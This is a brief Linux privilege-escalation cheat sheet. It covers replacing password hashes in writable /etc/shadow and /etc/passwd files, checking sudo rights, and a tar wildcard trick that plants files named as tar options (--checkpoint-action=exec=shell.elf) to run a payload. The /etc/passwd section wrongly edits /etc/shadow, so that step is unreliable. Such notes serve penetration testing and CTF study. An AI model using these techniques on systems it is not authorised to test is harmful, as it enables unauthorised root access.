 # Linux Privilege Escalation

## Writable /etc/shadow

```bash
# Generate hash sha512crypt
mkpasswd -m sha-512 some-password-here

# Edit /etc/shadow and change hash
vim /etc/shadow
```

## Writable /etc/passwd

```bash
# Generate password for /etc/passwd
openssl passwd some-password-here

# Edit /etc/shadow and change hash
vim /etc/shadow
```

## Sudo escalation

```bash
# Check programs allowed
sudo -l
```

[https://gtfobins.github.io](https://gtfobins.github.io)

## Tar escalation

If some script is using some like: `tar czf file.tar.gz *`.

```bash
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```
